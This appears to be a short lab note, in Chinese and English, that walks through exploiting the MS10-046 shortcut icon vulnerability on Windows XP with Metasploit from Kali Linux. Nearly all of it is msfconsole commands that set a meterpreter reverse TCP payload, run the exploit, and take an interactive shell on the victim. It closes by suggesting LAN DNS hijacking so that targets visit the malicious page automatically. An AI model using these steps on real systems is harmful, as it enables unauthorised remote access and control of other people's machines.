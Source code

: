 # ms10_046_shortcut_icon_dllloader

* kali Linux / xp

* metasploit

> msfconsole

> use exploit/windows/browser/ms10_046_shortcut_icon_dllloader

> show options

> set SRVHOST 192.168.135.100 //linux ip

> set PAYLOAD windows/meterpreter/reverse_tcp

> show options

> set LHOST 192.168.135.100 //linux ip

> exploit

* xp 浏览器访问 192.168.135.100:80
* linux 出现一下结果代表成功

![linux](../img/1540620517(1).jpg)

> sessions

> sessions -i 1

> shell

* 已成功登录xp系统

![xp](../img/1540620751(1).jpg)

* 可结合 局域网DNS劫持 实现让对方自动访问